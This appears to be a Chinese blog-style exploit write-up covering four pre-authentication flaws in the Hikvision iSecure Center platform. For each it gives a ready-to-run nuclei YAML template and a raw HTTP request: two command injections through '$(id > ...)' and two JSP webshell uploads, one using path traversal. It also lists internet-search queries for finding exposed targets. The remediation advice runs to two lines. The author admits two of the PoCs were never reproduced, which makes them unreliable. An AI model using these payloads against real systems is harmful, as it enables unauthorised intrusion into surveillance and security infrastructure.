









# 【漏洞复现|含POC】HW期间某康安防漏洞整理

# YAML-POC

## 某康威视综合安防管理平台detection前台RCE

```yaml
id: Hikvision-iSecure-Cente-detection-Rce

info:
  name: 海康威视综合安防detection 远程代码执行
  author: god
  severity: critical
  description: 海康威视综合安防detection 远程代码执行
  metadata:
    fofa-query: app="HIKVISION-综合安防管理平台"||title="综合安防管理平台"
  tags: Hikvision,rce

http:
- raw:
  - |
    @timeout: 30s
    POST /center/api/installation/detection HTTP/1.1
    Host: {{Hostname}}
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/105.0.1249.139 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    Content-Type: application/json;charset=UTF-8

    {"type":"environment","operate":"","machines":{"id":  "$(id > /opt/hikvision/web/components/tomcat85linux64.1/webapps/vms/static/1.txt)"}}
  - |+
    @timeout: 30s
    GET /vms/static/1.txt HTTP/1.1
    Host: {{Hostname}}

  max-redirects: 3
  matchers-condition: and
  matchers:
      - type: dsl
        dsl:
          - 'status_code_1 == 200'
          - 'status_code_2 == 200'
          - 'contains(body_2, "uid")'  
        condition: and
```

​​

​​

## 某康威视综合安防管理平台licenseExpire前台远程命令执行

```yaml
id: Hikvision-iSecure-Cente-licenseExpire-Rce

info:
  name: 海康威视综合安防licenseExpire远程代码执行
  author: god
  severity: critical
  description: 海康威视综合安防licenseExpire 远程代码执行
  metadata:
    fofa-query: app="HIKVISION-综合安防管理平台"||title="综合安防管理平台"
  tags: Hikvision,rce

http:
- raw:
  - |
    @timeout: 30s
    POST /portal/cas/login/ajax/licenseExpire.do HTTP/1.1
    Host: {{Hostname}}
    Cache-Control: max-age=0
    Accept: application/json, text/javascript, */*; q=0.01
    X-Requested-With: XMLHttpRequest
    If-Modified-Since: Thu, 01 Jun 1970 00:00:00 GMT
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
    Content-Type: applicatsion/x-www-form-urlencoded
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: JSESSIONID=jp9u6tFmSc3fk7Jzf9DQjK25abfBb_b4Yy1r4rax; curtTabId=all; configMenu=
    Connection: close
    Content-Length: 135

    {"type":"environment","operate":"","machines":{"id":"$(id > /opt/hikvision/web/components/tomcat85linux64.1/webapps/vms/static/1.txt)"}
  - |+
    @timeout: 30s
    GET /vms/static/1.txt HTTP/1.1
    Host: {{Hostname}}

  max-redirects: 3
  matchers-condition: and
  matchers:
      - type: dsl
        dsl:
          - 'status_code_1 == 200'
          - 'status_code_2 == 200'
          - 'contains(body_2, "uid")'  
        condition: and
```

这个和第四个没复现出来，但POC和第一个是差不多的，就先这么写了

## 某康威视综合安防管理平台clusters接口存在任意文件上传漏洞

```yaml
id: Hikvision-iSecure-Cente-clusters-fileupload

info:
  name: 海康威视综合安防clusters文件上传
  author: god
  severity: critical
  description: 海康威视综合安防clusters文件上传
  metadata:
    fofa-query: app="HIKVISION-综合安防管理平台"||title="综合安防管理平台"
  tags: Hikvision,rce,fileupload

http:
- raw:
  - |-
    @timeout: 30s
    POST /clusterMgr/clusters/ssl/file;.js HTTP/1.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
    Chrome/112.0.0.0 Safari/537.36 HTML
    Accept: */*
    Host: {{Hostname}}
    Accept-Encoding: gzip, deflate
    Connection: close
    Content-Type: multipart/form-data; boundary=--------------------------984514492333278399715408
    Content-Length: 478

    ----------------------------984514492333278399715408
    Content-Disposition: form-data; name="file"; filename="languages/default.jsp"
    Content-Type: image/png

    <% out.println(123456);new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
    ----------------------------984514492333278399715408
    Content-Disposition: form-data; name="proxyAddress"

    8.8.8.8
    ----------------------------984514492333278399715408--
  - |+
    @timeout: 30s
    GET /clusterMgr/languages/default.jsp;.js HTTP/1.1
    Host: {{Hostname}}

  max-redirects: 3
  matchers-condition: and
  matchers:
      - type: dsl
        dsl:
          - 'status_code_1 == 200'
          - 'status_code_2 == 200'
          - 'contains(body_2, "123456")'  
        condition: and
```

​​

​​

## 某康威视综合安防管理平台uploadAllPackage任意文件上传漏洞

```yaml
id: Hikvision-iSecure-Cente-uploadAllPackage-fileupload

info:
  name: 海康威视综合安防uploadAllPackage文件上传
  author: god
  severity: critical
  description: 海康威视综合安防uploadAllPackage文件上传
  metadata:
    fofa-query: app="HIKVISION-综合安防管理平台"||title="综合安防管理平台"
  tags: Hikvision,rce,fileupload

http:
- raw:
  - |-
    @timeout: 30s
    POST /center_install/picUploadService/v1/uploadAllPackage/image HTTP/1.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: */*
    Host: {{Hostname}}
    Accept-Encoding: gzip, deflate
    Connection: close
    Token: SElLIGlhL3NmaGNjaTY3WWxWK0Y6UzVCcjg1a2N1dENqVUNIOUM3SE1GamNkN2dnTE1BN1dGTDJldFE0UXFvbz0=
    Content-Type: multipart/form-data; boundary=--------------------------553898708333958420021355
    Content-Length: 233

    ----------------------------553898708333958420021355
    Content-Disposition: form-data; name="sendfile"; filename="../../../../components/tomcat85linux64.1/webapps/eportal/y4.js"
    Content-Type: application/octet-stream

    <% out.println(123456);new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
    ----------------------------553898708333958420021355--
  - |+
    @timeout: 30s
    GET /portal/ui/login/..;/..;/y4.js HTTP/1.1
    Host: {{Hostname}}

  max-redirects: 3
  matchers-condition: and
  matchers:
      - type: dsl
        dsl:
          - 'status_code_2 == 200'
          - 'contains(body_2, "123456")'  
        condition: and

```

# 资产测绘

* **Fofa**

> app\="HIKVISION-综合安防管理平台"||title\="综合安防管理平台"

* **Hunter**

> web.title\="综合安防管理平台"

* **Quake**

> title\="综合安防管理平台"

​​

# 漏洞复现

## 某康威视综合安防管理平台detection前台RCE

**1、构造数据包**

```http
POST /center/api/installation/detection HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/105.0.1249.139 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=UTF-8
 
{"type":"environment","operate":"","machines":{"id":  "$(id > /opt/hikvision/web/components/tomcat85linux64.1/webapps/vms/static/1.txt)"}}
```

​​

**2、访问/vms/static/1.txt**

​​

## 某康威视综合安防管理平台licenseExpire前台远程命令执行

**1、构造数据包**

```http
POST /portal/cas/login/ajax/licenseExpire.do HTTP/1.1
Host: x.x.x.x
Cache-Control: max-age=0
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
If-Modified-Since: Thu, 01 Jun 1970 00:00:00 GMT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http:///portal/cas/login/loginPage.do?service=http://x.x.x.x:80/portal
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=jp9u6tFmSc3fk7Jzf9DQjK25abfBb_b4Yy1r4rax; curtTabId=all; configMenu=
Connection: close
Content-Length: 135

{"type":"environment","operate":"","machines":{"id":"$(id > /opt/hikvision/web/components/tomcat85linux64.1/webapps/vms/static/1.txt)"}
```

**2、访问/vms/static/1.txt**

## 某康威视综合安防管理平台clusters接口存在任意文件上传漏洞

**1、构造数据包**

```http
POST /clusterMgr/clusters/ssl/file;.js HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)Chrome/112.0.0.0 Safari/537.36 HTML
Accept: */*
Host: 8.8.8.8:1443
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------984514492333278399715408
Content-Length: 339

----------------------------984514492333278399715408
Content-Disposition: form-data; name="file"; filename="languages/default.jsp"
Content-Type: image/png

<% out.println(123456);new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
----------------------------984514492333278399715408
Content-Disposition: form-data; name="proxyAddress"

8.8.8.8
----------------------------984514492333278399715408--
```

​​

**2、访问/clusterMgr/languages/default.jsp;.js**

​​

## 某康威视综合安防管理平台uploadAllPackage任意文件上传漏洞

**1、构造数据包**

```http
POST /center_install/picUploadService/v1/uploadAllPackage/image HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Host: 192.168.52.228:8001
Accept-Encoding: gzip, deflate
Connection: close
Token: SElLIGlhL3NmaGNjaTY3WWxWK0Y6UzVCcjg1a2N1dENqVUNIOUM3SE1GamNkN2dnTE1BN1dGTDJldFE0UXFvbz0=
Content-Type: multipart/form-data; boundary=--------------------------553898708333958420021355
Content-Length: 233

----------------------------553898708333958420021355
Content-Disposition: form-data; name="sendfile"; filename="../../../../components/tomcat85linux64.1/webapps/eportal/y4.js"
Content-Type: application/octet-stream

<% out.println(123456);new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
----------------------------553898708333958420021355--
```

**2、访问/portal/ui/login/..;/..;/y4.js**

# 修复方案

> * 官方已发布安全补丁，建议联系厂商打补丁或升级版本。
> * 引入Web应用防火墙防护，配置接口拦截策略。

‍
